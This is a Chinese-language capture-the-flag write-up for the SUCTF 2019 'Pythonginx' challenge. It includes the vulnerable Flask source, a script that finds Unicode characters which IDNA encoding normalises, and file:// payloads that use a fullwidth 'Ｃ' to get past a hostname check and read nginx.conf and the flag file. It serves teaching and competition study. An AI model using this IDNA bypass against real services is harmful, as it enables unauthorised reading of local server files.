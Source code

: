 * # SUCTF 2019

* ## 0x01 Pythonginx

  关键词：nginx架构，编码与解码，python

进入界面，读取源码：

```
@app.route('/getUrl', methods=['GET', 'POST']) 
def getUrl(): 
    url = request.args.get("url") 
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return "我扌 your problem? 111" 
    parts = list(urlsplit(url))
    host = parts[1] 
    if host == 'suctf.cc': 
        return "我扌 your problem? 222 " + host
    newhost = [] 
    for h in host.split('.'): 
        newhost.append(h.encode('idna').decode('utf-8')) 
        parts[1] = '.'.join(newhost) 
        #去掉 url 中的空格 
    finalUrl = urlunsplit(parts).split(' ')[0] 
    host = parse.urlparse(finalUrl).hostname 
    if host == 'suctf.cc': 
        return urllib.request.urlopen(finalUrl).read() 
    else: 
        return "我扌 your problem? 333"
```

源码基本逻辑为：

* 第一次主机地址不能为suctf.cc
* 第二次主机地址不能为suctf.cc
* 最后一次主机地址（经过idna编码和utf-8解码后）为suctf.cc后打开网址对应的网站并读取源码

故我们可以采用这个逻辑去进行编码，编码脚本如下：

```
for i in range(128,65537):    
    tmp=chr(i)    
    try:        
        res = tmp.encode('idna').decode('utf-8')        
        if("-") in res:            
            continue        
        print("U:{}    A:{}      ascii:{} ".format(tmp, res, i))    
    except:        
        pass
```

人工寻找能够在编码解码后替换网址的字符完成绕过

第一步payload：

```
file://suctf.cＣ
```

进入nginx文件读取环节，需要掌握基础知识如下：

* Nginx 重要文件目录

  配置文件存放目录：/etc/nginx
  主要配置文件：/etc/nginx/conf/nginx.conf
  管理脚本：/usr/lib64/systemd/system/nginx.service
  模块：/usr/lisb64/nginx/modules
  应用程序：/usr/sbin/nginx
  程序默认存放位置：/usr/share/nginx/html
  日志默认存放位置：/var/log/nginx
  Nginx配置文件：/usr/local/nginx/conf/nginx.conf
  
* 最终在nginx配置文件中找到flag位置

```
file://suctf.cＣ/usr/local/nginx/conf/nginx.conf
```

![su1](https://raw.githubusercontent.com/Heart-1ess/Heart_1ess-s-CTF-Note/master/assets/su1.png)

最终payload：

```
file://suctf.cＣ/usr/fffffflag
```

